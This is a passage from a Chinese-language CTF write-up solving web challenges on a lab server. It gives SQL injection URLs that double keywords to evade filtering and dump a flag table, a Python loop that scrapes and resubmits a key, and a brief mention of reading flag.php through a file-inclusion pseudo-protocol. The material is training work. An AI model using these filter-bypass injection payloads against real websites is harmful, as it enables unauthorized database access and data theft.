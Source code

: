 查询列名

	http://123.206.31.85:10018/list.php?id=-2' uniounionn selecselectt 1,group_concat(column_name),3 from infoorrmation_schema.columns where table_name='flag'--+

![30.jpg](https://i.loli.net/2019/04/24/5cc0663506a9b.jpg)

获取flag

	http://123.206.31.85:10018/list.php?id=-2' uniounionn selecselectt 1,flag,3 from flag--+

![31.jpg](https://i.loli.net/2019/04/24/5cc0669a05155.jpg)


## web20 ##

题目如下

![32.jpg](https://i.loli.net/2019/04/25/5cc18d8d55db0.jpg)

常规编写脚本即可，key=密文

	import requests
	import re
	while(1):
	    url = "http://123.206.31.85:10020/"
	    s = requests.session()
	    html = s.get(url)
	    re1 = re.compile('¼(.*?)<br/>',re.S)
	    result = re.findall(re1,html.text)
	    url2 = url+"?key="+result[0]
	    html1 = s.get(url2)
	    print(html1.text)

有一点要注意，这题目的flag是有几率出现的，需要多跑几次

![33.jpg](https://i.loli.net/2019/04/25/5cc18e0b63f2c.jpg)

## web25 ##

## web3 ##

定位到上传界面

![34.jpg](https://i.loli.net/2019/04/25/5cc19184715ef.jpg)

观察链接联想到文件包含漏洞，可以使用伪协议读取

用扫描器扫描发现flag.php文件，开始利用伪协议读取

![35.jpg](https://i.loli.net/2019/04/25/5cc191e2f32ce.jpg)

解密后得到flag
